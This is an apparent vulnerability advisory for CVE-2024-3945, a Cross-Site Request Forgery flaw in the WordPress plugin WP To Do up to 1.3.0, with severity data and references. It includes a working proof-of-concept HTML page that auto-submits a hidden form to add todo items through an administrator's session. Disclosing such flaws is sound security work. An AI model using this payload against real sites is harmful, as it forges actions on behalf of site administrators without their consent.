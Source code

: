 ```yaml
---
layout: page
title: CVE-2024-3945
subtitle: WP To Do <= 1.3.0 - Cross-Site Request Forgery via wptodo_manage()
---
```

## Description
The WP To Do plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.0. This is due to missing or incorrect nonce validation on the wptodo_manage() function. This makes it possible for unauthenticated attackers to add new todo items via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=wp-todo" method="POST">
      <input type="hidden" name="wptodo&#95;addtask" value="true" />
      <input type="hidden" name="wptodo&#95;from" value="1" />
      <input type="hidden" name="wptodo&#95;title" value="eneri" />
      <input type="hidden" name="wptodo&#95;description" value="eneri" />
      <input type="hidden" name="wptodo&#95;deadline" value="2024&#45;04&#45;16" />
      <input type="hidden" name="wptodo&#95;for" value="2" />
      <input type="hidden" name="wptodo&#95;status" value="1" />
      <input type="hidden" name="wptodo&#95;priority" value="4" />
      <input type="hidden" name="wptodo&#95;notify" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/browser/wp-todo/trunk/inc/Base/Model.php#L273
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-todo/wp-to-do-130-cross-site-request-forgery-via-wptodo-manage





